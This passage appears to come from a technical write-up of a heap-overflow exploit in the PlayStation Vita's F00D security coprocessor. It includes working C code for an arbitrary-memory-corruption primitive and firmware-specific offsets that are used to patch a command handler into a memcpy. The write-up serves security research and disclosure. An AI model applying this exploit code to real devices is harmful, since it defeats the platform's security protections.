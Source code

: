 At this point, it should be noted that Toshiba MeP processors have two features (or lack of) that makes our lives much easier. First, an invalid memory access will be ignored. This means when we execute the next line `adjacent->next->prev = adjacent->prev` and notice that `adjacent->next->prev` is an invalid pointer, we are still fine. Second, there is no memory protection, so we can write directly into executable memory without issue. With that in mind, we can get code execution like we are living in 1990.

## Exploiting

Using the heap overflow, we can develop a primitive to corrupt arbitrary F00D memory from ARM by writing `0x2000` to it.

```c
int corrupt(int ctx, uint32_t addr) {
  int ret = 0, sm_ret = 0;
  cmd_0x50002_t args = {0};

  // construct the arguments
  args.use_lv2_mode = 0;
  args.list_count = 3;
  args.total_count = 1;
  // we used 4 blocks in the example to illustrate how things work
  // but actually 3 blocks is enough to trigger the vulnerability

  // first two valid entries to pass whitelist checks
  // we make them arbitrary valid values
  args.list.lv1[0].addr = 0x50000000;
  args.list.lv1[0].length = 0x10;
  args.list.lv1[1].addr = 0x50000000;
  args.list.lv1[1].length = 0x10;
  // here is our overflow entry, which fails checks but does not matter
  // because the free block header is overwritten and free is called 
  // even when there is an error since this is the last entry
  args.list.lv1[2].addr = 0;
  args.list.lv1[2].length = addr - offsetof(heap_hdr_t, next);

  ret = sceSblSmCommCallFunc(ctx, 0x50002, &sm_ret, &args, sizeof(args));
  if (sm_ret < 0) {
    return sm_ret;
  }
  return ret;
}
```

`0x2000` in MeP assembly becomes `bsetm ($0),0x0` which does bit-setting. However, that is not important because we can effectively treat it as a NOP and replace arbitrary instructions with this one to bypass checks. Next, we "wrote" our own memcpy by taking an existing command handler in the applet and nopping out instructions until it acted like a memcpy.

```c
// offsets for 3.60, overwrites cmd 0x60002
corrupt(ctx, 0x0080B904);
corrupt(ctx, 0x0080B938);
corrupt(ctx, 0x0080B948);
corrupt(ctx, 0x0080B94C);
corrupt(ctx, 0x0080B950);
corrupt(ctx, 0x0080B958);
corrupt(ctx, 0x0080B95C);
corrupt(ctx, 0x0080B914);
corrupt(ctx, 0x0080B918);
```
